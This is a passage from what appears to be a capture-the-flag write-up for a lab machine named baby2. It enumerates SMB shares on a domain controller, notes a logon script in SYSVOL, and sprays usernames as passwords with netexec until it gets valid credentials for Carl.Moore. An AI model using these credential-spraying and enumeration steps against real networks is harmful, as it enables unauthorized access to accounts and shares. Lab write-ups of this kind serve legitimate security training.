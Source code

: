 ```
$ lnkinfo login.vbs.lnk
Local path                      : C:\Windows\SYSVOL\sysvol\baby2.vl\scripts\login.vbs
Network path                    : \\DC\NETLOGON\login.vbs
Relative path                   : ..\..\..\Windows\SYSVOL\sysvol\baby2.vl\scripts\login.vbs
Working directory               : C:\Windows\SYSVOL\sysvol\baby2.vl\scripts
```

There is a VBS file in the `SYSVOL` share that we are still unsure what it does, however with the information that we have we can OSINT a bit to understand what are those files.

We will find this [question in serverfault,](https://serverfault.com/questions/2748/auto-mapping-network-drive-when-a-user-logs-in) which is related to a network drive mapping and some logon scripts. We can conclude that some script is firing up whenever we log in as a user, this will become useful later, so let's note that and move on.

Next, lets explore the **/homes** share.

```
$ smbclient //10.10.101.112/homes -U 'sfgsfgsf'
```

![](/assets/images/Pasted image 20231231091940.png)

This would give us a list of usernames that are most likely related to the Active Directory. Let's save those in a file and try them against the SMB protocol, for the password we would try to exploit some weak credentials.

```
$ netexec smb 10.10.101.112 -u ./credentials/users.txt -p ./credentials/users.txt
```

We would find that we can log in as `Carl.Moore` since we got a git for his username used as a password.

Let's list the shares once more, we may have different shares that we can read.

```
$ netexec smb baby2.vl -u 'Carl.Moore' -p 'Carl.Moore' --shares
SMB         10.10.101.112   445    DC               [*] Windows 10.0 Build 20348 x64 (name:DC) (domain:baby2.vl)
SMB         10.10.101.112   445    DC               [+] baby2.vl\Carl.Moore:Carl.Moore 
SMB         10.10.101.112   445    DC               [*] Enumerated shares
SMB         10.10.101.112   445    DC               Share           Permissions     Remark
SMB         10.10.101.112   445    DC               -----           -----------     ------
SMB         10.10.101.112   445    DC               ADMIN$                          Remote Admin
SMB         10.10.101.112   445    DC               apps            READ,WRITE      
SMB         10.10.101.112   445    DC               C$                              Default share
SMB         10.10.101.112   445    DC               docs            READ,WRITE      
SMB         10.10.101.112   445    DC               homes           READ,WRITE      
SMB         10.10.101.112   445    DC               IPC$            READ            Remote IPC
SMB         10.10.101.112   445    DC               NETLOGON        READ            Logon server share 
SMB         10.10.101.112   445    DC               SYSVOL          READ            Logon server share 
```
